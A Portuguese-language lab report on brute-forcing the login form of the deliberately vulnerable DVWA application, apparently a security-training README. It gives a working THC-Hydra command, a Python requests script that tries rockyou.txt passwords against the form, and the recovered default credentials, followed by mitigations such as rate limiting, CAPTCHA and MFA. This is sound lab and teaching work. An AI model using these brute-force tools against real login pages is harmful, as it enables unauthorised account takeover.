

# 🛡️ Relatório Técnico: Teste de Força Bruta em Autenticação Web (DVWA)

Documentação prática de teste de segurança e auditoria de autenticação contra o Damn Vulnerable Web Application (DVWA) hospedado no Metasploitable2, demonstrando a identificação de vulnerabilidades em formulários de login e propondo controles defensivos.


📋 Sumário
```text
1. Visão Geral
2. Topologia do Laboratório
3. Análise da Aplicação Alvo
4. Análise de Requisição e Payload (DevTools)
5. Execução do Ataque de Força Bruta
6. Vulnerabilidades Identificadas
7. Medidas de Mitigação
```


# 1. Visão Geral

O objetivo deste teste foi avaliar a resiliência do mecanismo de autenticação web do DVWA frente a ataques automatizados de força bruta (brute-force), além de identificar a presença de credenciais fracas/padrão.

# 2. Topologia do Laboratório


# 3. Análise da Aplicação Alvo

A inspeção da estrutura do código-fonte HTML da página de login (/dvwa/login.php) revelou a presença dos campos de formulário e a mensagem estática de falha enviada no corpo da resposta:

Código HTML do Formulário de Login (login.php)

```bash
<form action="login.php" method="post">
    <fieldset>
        <label for="user">Username</label> 
        <input type="text" class="loginInput" size="20" name="username"><br />

        <label for="pass">Password</label> 
        <input type="password" class="loginInput" AUTOCOMPLETE="off" size="20" name="password"><br />

        <p class="submit"><input type="submit" value="Login" name="Login"></p>
    </fieldset>
</form>

<div class="message">Login failed</div>
```
# 4. Análise de Requisição e Payload (DevTools)

Através do painel Developer Tools (Aba Network), inspecionou-se a requisição HTTP POST enviada no momento da submissão:

🔍 Dados do Form Payload (HTTP POST)
```bash
username: admin

password: 123456

Login: Login
```

```text
POST /dvwa/login.php HTTP/1.1
Host: 192.168.1.4
Content-Type: application/x-www-form-urlencoded

username=admin&password=123456&Login=Login
```

Evidência de Inspeção de Rede:

Captura do painel DevTools mostrando os parâmetros exatos do formulário enviado ao servidor:




# 5. Execução do Ataque de Força Bruta

5.1 Preparação do Ambiente

Inicialmente, realizou-se a descompactação da wordlist rockyou.txt nativa do Kali Linux:

```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

5.2 Execução com THC-Hydra
Para evitar erros de parsing e falsos positivos associados a métodos genéricos (como ocorreu no teste preliminar com a ferramenta Medusa), utilizou-se o módulo http-post-form do Hydra, definindo explicitamente o indicador de falha :F=Login failed:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.4 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"
```

figura 2

Resultado Encontrado:

Usuário: admin

Senha: password

# 6. Vulnerabilidades Identificadas

1.Uso de Credenciais Padrão (CWE-1391): O sistema manteve a senha padrão de fábrica (password), permitindo a contaminação e o acesso administrativo imediato.

2.Ausência de Rate Limiting (CWE-307): A aplicação aceita milhares de requisições por segundo sem aplicar restrições temporárias ou bloqueio de IP.

3.Ausência de Desafios CAPTCHA: Permite a automação irrestrita do formulário por ferramentas como Hydra e Burp Suite.

# 7. Medidas de Mitigação

Para sanar as falhas apontadas, recomenda-se a aplicação das seguintes diretrizes de segurança:

1.Política de Senhas Fortes: Forçar a alteração de senhas padrão no primeiro acesso e exigir complexidade mínima (maiúsculas, números e caracteres especiais).

2.Implementação de Rate Limiting: Bloquear o IP ou usuário após um número limite de tentativas incorretas consecutivas (ex: 5 tentativas falhas = bloqueio por 15 minutos).

3.Integração de CAPTCHA: Adicionar reCAPTCHA v2/v3 para validar que as solicitações de login partem de usuários humanos.

4.Autenticação Multifator (MFA): Requerer um segundo fator de autenticação (TOTP/SMS) para mitigar totalmente o impacto de credenciais comprometidas por força bruta.

# 🐍 Script de Automação de Força Bruta (Python)

1. Script em Python utilizando a biblioteca requests para automatizar esse ataque de força bruta via código, servindo como uma alternativa programática ao uso do Hydra.

```bash
import requests

# Configurações do Alvo
target_url = "http://192.168.1.4/dvwa/login.php"
username = "admin"
wordlist_path = "rockyou.txt"  # Certifique-se de que o arquivo está no mesmo diretório ou informe o caminho absoluto

# Mensagem de erro retornada pela aplicação em caso de falha
failure_message = "Login failed"

def attack():
    print(f"[*] Iniciando ataque de força bruta contra {target_url} para o usuário: {username}\n")
    
    # Abre a wordlist e testa senha por senha
    try:
        with open(wordlist_path, "r", encoding="latin-1") as file:
            for line in file:
                password = line.strip()
                
                # Dados enviados no corpo da requisição POST
                payload = {
                    "username": username,
                    "password": password,
                    "Login": "Login"
                }
                
                # Envia a requisição POST
                response = requests.post(target_url, data=payload)
                
                # Verifica se a mensagem de falha NÃO está presente na resposta
                if failure_message not in response.text:
                    print(f"[+] SUCESSO! Senha encontrada: {password}")
                    return
                else:
                    print(f"[-] Tentativa falha com a senha: {password}")
                    
        print("[-] Senha não encontrada na wordlist.")
        
    except FileNotFoundError:
        print(f"[!] Erro: O arquivo de wordlist '{wordlist_path}' não foi encontrado.")

if __name__ == "__main__":
    attack()

    ```